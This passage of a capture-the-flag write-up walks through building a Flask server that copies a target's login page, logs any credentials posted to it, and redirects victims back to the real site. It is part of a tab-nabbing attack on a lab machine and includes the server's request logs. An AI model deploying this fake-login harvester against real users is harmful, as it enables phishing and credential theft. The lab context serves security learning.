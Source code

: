 #### Generate Login / Server

I’ll grab the source from the login page and save it as `loginform.html`. The
HTML form `action` points to `/accounts/login/`, Now I’ll write a quick Flask
server to handle both the writeup and the fake login:

    
    
    #!/usr/bin/env python3
    
    from flask import *
    
    
    app = Flask(__name__, template_folder='.')
    
    @app.route("/writeup")
    def writeup():
        return render_template('writeup.html')
    
    
    @app.route("/accounts/login/", methods=['GET', 'POST'])
    def login():
    
        if request.method == 'POST':
            print('\n'.join([f'{x[0]}: {x[1]}' for x in request.form.items()]))
            return redirect("http://10.10.10.120/accounts/login/", code=302)
        else:
            return render_template('loginform.html')
    
    
    if __name__ == "__main__":
        app.run(host="0.0.0.0", port=80)
    

Requests to `/writeup` will return the tab nabber page. For
`/accounts/login/`, if it’s a GET request, it will return the static page I
saved. If it is a POST, it will print the form data and then return a redirect
back to the legit site. I’ll run the site with `python3 fake_login.py`, and
the webserver listens on 80:

    
    
    oxdf@parrot$ python fake_login.py 
     * Serving Flask app "fake_login" (lazy loading)
     * Environment: production
       WARNING: This is a development server. Do not use it in a production deployment.
       Use a production WSGI server instead.
     * Debug mode: off
     * Running on http://127.0.0.1:80/ (Press CTRL+C to quit)
    

Just loading the page myself, I noticed that the CSS and images are off, and
there’s a bunch of 404s at Flask:

    
    
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /accounts/login/ HTTP/1.1" 200 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/css/jquery.toasts.css HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/css/signin.css HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static../img/logo.png HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/js/jquery.toast.js HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/css/signin.css HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static../img/logo.png HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/js/jquery.toast.js HTTP/1.1" 404 -
    127.0.0.1 - - [14/Jul/2021 06:24:45] "GET ../img/favicon.ico HTTP/1.1" 404 -
    